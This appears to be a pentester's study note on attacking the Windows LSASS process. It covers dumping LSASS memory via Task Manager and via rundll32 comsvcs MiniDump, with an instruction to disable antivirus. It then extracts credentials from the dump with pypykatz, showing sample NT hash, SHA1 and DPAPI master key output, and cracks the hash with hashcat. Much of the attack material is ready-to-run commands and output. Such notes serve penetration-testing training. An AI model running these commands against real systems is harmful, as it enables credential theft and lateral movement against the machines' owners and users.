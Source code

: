 Process:
![[Pasted image 20240714173521.png|1200]]

Upon login LSASS will:
- Cache creds locally in memory
- Create [Access Tokens](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens)
- Enforce security policies
- Write to Windows [security log](https://docs.microsoft.com/en-us/windows/win32/eventlog/event-logging-security)

### Dumping LSASS Process Memory
#### Method 1: With GUI Access
1. Open Task Manager
2. Go to 'Processes' Tab
3. Find 'Local Security Authority Process'
4. Right-click and 'Create dump file'
	*a file called __lsass.DMP__ will be saved in `C:\Users\user\AppData\Local\Temp`*

#### Method 2: No GUI
***THIS IS RECOGNIZED AS MALICIOUS, DISABLE AV***

1. Find out ==lsass.exe== PID
```cmd
tasklist /svc
```
```powershell
Get-Process lsass
```
2. With an elevated shell create dump file
```cmd
rundll32 C:\windows\system32\comsvc.dll, MiniDump <PID> C:\lsass.dmp full
```

***FOR EXTRACTION TO HOST: [[Attacking SAM|Attacking SAM]]***

### Use Pypykatz to Extract Creds
On linux we can use [pypykats](https://github.com/skelsec/pypykatz) (play on Mimikatz, which is Windows only) to extract informtion from the ==lsass.dmp== file. Useful for offline cracking.

#### Run Pypykatz
We use LSA for ==local security authority== and specify ==minidump== as our data source, proceeded by the path to the dump file.
```bash
pypykatz lsa minidump /path/to/file.dmp
```

#### Output
##### MSV
```shell-session
sid S-1-5-21-4019466498-1700476312-3544718034-1001
luid 1354633
	== MSV ==
		Username: bob
		Domain: DESKTOP-33E7O54
		LM: NA
		NT: 64f12cddaa88057e06a81b54e73b949b
		SHA1: cba4e545b7ec918129725154b29f055e4cd5aea8
		DPAPI: NA
```

MSV is an authentication package that LSA calls to validate logon attempts against the SAM database.

##### WDIGEST
```shell-session
	== WDIGEST [14ab89]==
		username bob
		domainname DESKTOP-33E7O54
		password None
		password (hex)
```

WDIGEST is an older authentication protocol used by ==Windows XP - 8 and Windows Server 2003 - 2012==. These will be cleartext if present.

##### Kerberos
```shell-session
	== Kerberos ==
		Username: bob
		Domain: DESKTOP-33E7O54
```

Kerberos is authentication used in Active Directory. May be useful in accessing other systems on the domain.

##### DPAPI 
```shell-session
	== DPAPI [14ab89]==
		luid 1354633
		key_guid 3e1d1091-b792-45df-ab8e-c66af044d69b
		masterkey e8bc2faf77e7bd1891c0e49f0dea9d447a491107ef5b25b9929071f68db5b0d55bf05df5a474d9bd94d98be4b4ddb690e6d8307a86be6f81be0d554f195fba92
		sha1_masterkey 52e758b6120389898f7fae553ac8172b43221605
```

Short for ==Data Protection Application Programming Interface==, it's a set of APIs used to encrypt and decrypt DPAPI data blobs on a per-user basis. Some applications that use it are below.

| Program                   | Use of DPAPI                                                                  |
| ------------------------- | ----------------------------------------------------------------------------- |
| Internet Explorer         | Password form auto-completion                                                 |
| Google Chrome             | Password form auto-completion                                                 |
| Outlook                   | Passwords for email accounts                                                  |
| Remote Desktop Connection | Saved creds for connections to remote machines                                |
| Credential Manager        | Saved creds for accessing shared resources, wireless networks, VPNs, and more |
Pypykatz can extract the DPAPI ==masterkey== for the logged-on user who's in memory.


### Cracking hash with Hashcat
```bash
sudo hashcat -m 1000 <hash> <wordlist>
```

[[Attacking LSASS|Attacking LSASS]]